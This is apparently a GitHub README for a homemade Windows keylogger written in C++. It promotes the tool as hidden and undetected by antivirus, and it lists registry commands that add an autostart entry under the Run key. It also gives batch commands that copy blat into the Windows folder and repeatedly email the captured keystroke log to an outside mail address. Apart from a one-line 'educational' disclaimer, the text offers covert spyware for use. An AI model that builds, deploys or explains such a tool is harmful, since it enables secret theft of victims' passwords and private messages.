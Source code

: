 
<h1 align="center">
  <br>




                                             
                  ,ad8888ba,                       
                 d8"'    `"8b   aa         aa      
                d8'             88         88      
                88          aaaa88aaaa aaaa88aaaa  
                88          """"88"""" """"88""""  
                Y8,             88         88      
                 Y8a.    .a8P   ""         ""      
                  `"Y8888Y"'                       

                                   
                                  
                                  
                                  
                                  
                           
  <br>
  Remote Keylogger
  <br>
</h1>

<h4 align="center">A simple home made keylogger that send logs to your email
.</h4>


<p align="center">
  <a href="#key-features">Key Features</a> •
  <a href="#how-to-use">How To Use</a> •
  <a href="#credits">Credits</a> •
  <a href="#license">License</a>
</p>

![screenshot](https://www.nevis.net/hubfs/2020/blog/e143-keylogger.gif)

## Key Features

* Easy to Hide
  - you need to bind the file. Also you can create a windows register file for create an autostart ghost process on windows login.
* FUD not detected by antivirus software. 
* Create a .txt log file, easy to send.
* Log all keys.
* Sent to you a copy of the log periodically to your email.



## How To Use

You can build the project using Visual Studio or DevC++ (free), then you need to insert additional tools in the same foldere of the .exe launcher file, or you can use the prebuild exe in the repository. Check out the code to change the file paths needed for some features

Mandatory: Edit the batch file!

With this code you can create windows register file for create an autostart ghost process on windows login. Change the path with your file name
```
Reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v prova /f
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v prova /t REG_SZ /d "C:\\lancio.exe\" /f

```

If you want you can change the directory 

```
@COPY blat.exe C:\WINDOWS\blat.exe
@COPY blat.dll C:\WINDOWS\blat.dll
@COPY blat.lib C:\WINDOWS\blat.lib

```

Insert your email server and email address, change the timeout if you want
```

@blat -install out.alice.it yourmail@alice.it
cls
@blat keylogs.txt -to yourmail@alice.it -try 2 -subject Keylog
timeout /t 15
@blat keylogs.txt -to yourmail@alice.it -try 2 -subject Keylog
timeout /t 600

```

> **Note**
> You can use temporany email too


## Credits

Russo Giovanni M.

Use it for educational or legal purposes only

## License

MIT

---

